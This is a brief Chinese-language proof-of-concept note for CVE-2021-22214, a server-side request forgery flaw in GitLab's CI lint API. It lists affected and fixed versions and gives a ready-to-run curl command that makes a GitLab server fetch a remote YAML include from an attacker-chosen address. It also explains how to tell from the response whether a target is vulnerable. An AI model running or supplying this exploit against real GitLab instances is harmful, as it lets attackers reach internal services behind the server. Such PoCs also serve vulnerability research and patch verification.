 # CVE-2021-22214 gitlab ssrf

### 1、影响版本

产品Gitlab

影响版本：从 10.5 开始的所有版本

安全版本：官方当前最新的 13.12.2, 13.11.5 和 13.10.5

### 2、POC

```
curl -s --show-error -H 'Content-Type: application/json' https://example.gitlab.com/api/v4/ci/lint --data '{ "include_merged_yaml": true, "content": "include:\n  remote: http://xx.xxx.xx.xx:port/api/v1/targets?test.yml"}'
```

### 3、复现

这里返回包不是4xx一般就是存在

![image-20210625144758344](pic/image-20210625144758344.png)

服务器收到请求

![image-20210625145050147](pic/image-20210625145050147.png)

